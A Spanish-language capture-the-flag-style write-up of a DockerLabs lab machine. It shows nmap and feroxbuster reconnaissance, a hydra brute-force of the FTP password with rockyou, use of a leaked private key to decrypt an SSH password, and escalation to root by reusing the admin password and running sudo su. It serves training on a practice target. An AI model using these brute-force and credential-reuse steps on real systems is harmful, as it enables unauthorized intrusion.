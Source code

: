 # Fase 1- Tanteo
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/5dd59ce0-9e3d-44de-aa61-48eb411d6e48)
En esta fase inicial, realizamos un escaneo de puertos para identificar los servicios disponibles en la máquina objetivo. Utilizamos la herramienta Nmap con una serie de opciones para obtener información detallada y realizar un análisis exhaustivo de los puertos abiertos.
### Comando Nmap utilizado:

`sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`

### Detalles del Comando:

- `sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`
- `-p-`: Escaneo de todos los puertos.
- `--open`: Muestra solo puertos abiertos.
- `-sS`: Escaneo SYN para determinar el estado de los puertos.
- `-sC`: Activa detección de versiones y vulnerabilidades.
- `-sV`: Escaneo de versiones de servicios.
- `--min-rate 5000`: Velocidad mínima de escaneo.
- `-vvv`: Verbosidad muy alta para información detallada.
- `-n`: Desactiva la resolución de DNS.
- `-Pn`: Ignora la detección de hosts en línea.
- `192.168.52.139`: IP de la máquina objetivo.
- `-oN Escaneo`: Guarda resultados en archivo "Escaneo".

### Resultados:

#### Puertos Abiertos:

1. **21/tcp(FTP):** vsftpd 2.0.8 
2.  **22/tcp(SSH):** OpenSSH 9.6
3. **80/tcp(HTTP):** Apache httpd 2.4.58

### Puerto 80
Al identificar que el puerto 80 estaba abierto durante el escaneo, se procedió a ingresar la dirección IP en el navegador. Encontramos un mensaje de bienvenida a `mwheeler`.
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/64d69459-4b42-4105-81a3-6dae5975ddda)

# Fase 2- Exploración

#### feroxbuster
```python
❯ feroxbuster --url http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,sh,html,txt

301      GET        9l       28w      310c http://172.17.0.2/strange
200      GET        1l        1w      123c http://172.17.0.2/strange/private.txt
200      GET        9l       25w      172c http://172.17.0.2/strange/secret.html
```
Encontramos la pagina `/strange` y el archivo `/strange/private.txt`

#### Strange
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/d43df210-e191-49b7-a078-7d9a8a63e1bb)
En la pagina `Strange` encontramos algunos datos que nos pueden ser de ayuda.
Usuario: `Will Bayers` o `Will`
Usuario: `Demogorgon`
Contraseña: `iloveu`

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/a1a3ba24-4caf-4c94-a964-ff39bccf6ab4)
Si ponemos el archivo `private.txt` vemos que podemos descargarlo.

#### Secret.html
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/ae431d90-9d67-4133-a495-3a85aede7b2c)

Si nos dirigimos al archivo `/strange/secret.html` vemos que nos dice que el usuario del servicio `ftp` es `admin` pero que la contraseña la tenemos que descubrir, pero que el diccionario rockyou es correcto para usarlo.

# Fase 3- Explotación

#### Hydra
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/b4aa888f-018e-4969-808e-9d150b9691ea)
Y encontramos la contraseña `banana` valida para el usuario `admin` para ftp, El comando usado es:
```python
hydra -l admin -P /usr/share/wordlists/rockyou.txt ftp://172.17.0.2
```

```python
❯ sudo ftp 172.17.0.2
Connected to 172.17.0.2.
220 Welcome to my FTP server
Name (172.17.0.2:sansett): admin
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||40089|)
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0             522 May 01 00:53 private_key.pem
226 Directory send OK.
ftp> get private_key.pem
local: private_key.pem remote: private_key.pem
229 Entering Extended Passive Mode (|||40013|)
150 Opening BINARY mode data connection for private_key.pem (522 bytes).
100% |***************************************************************************************************************************************************************|   522       22.62 MiB/s    00:00 ETA
226 Transfer complete.
522 bytes received in 00:00 (2.73 MiB/s)
```
Nos conectamos por ftp y descargamos un archivo llamado `private_key.pem`.

#### .pem
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/f82479dc-ce25-4445-9298-6b076385ec1e)

Vemos que es una especie de clave pero no es legible.

```python
❯ openssl rsautl -decrypt -in private.txt -out privateOUT.txt -inkey private_key.pem
The command rsautl was deprecated in version 3.0. Use 'pkeyutl' instead.
❯ cat privateOUT.txt
   1   │ demogorgon
```
Este comando  descifra el contenido del archivo `private.txt` usando una clave privada almacenada en `private_key.pem`. El resultado descifrado se guarda en el archivo `privateOUT.txt`. En otras palabras, convierte los datos cifrados de `private.txt` en texto claro utilizando la clave privada y guarda este texto claro en `privateOUT.txt`. Obteniendo así una clave que es `demogorgon` para el usuario `mwheeler`.

#### ssh
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/103cb860-c73f-4c4e-88a0-929bde4f74a3)

Y estamos dentro de la maquina!.

# Fase 4- Privilegios

#### sudo -l
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/fc2c965b-909d-4a83-a716-bbc842e041e6)

Despues de realizar el tratamiento de la TTY, vemos que no tenemos ningún binario que se pueda ejecutar para escalar.

#### admin
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/c6e14f40-6728-457d-a805-c859ae577e89)

Si vemos el archivo `/etc/passwd` vemos el usuario `admin` que si recordamos su contraseña para ftp era `banana`.
```python
mwheeler@13735a784678:~$ su admin
Password: 
$ whoami
admin
$ 
```
Somos el usuario admin!.

#### admin
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/b6a7fd59-f682-49a0-9a09-36239e2edbf2)
Como usuario `admin` tenemos permisos de ejecución de todo, así que hacemos un `sudo su` y ya somos usuario `root`!.
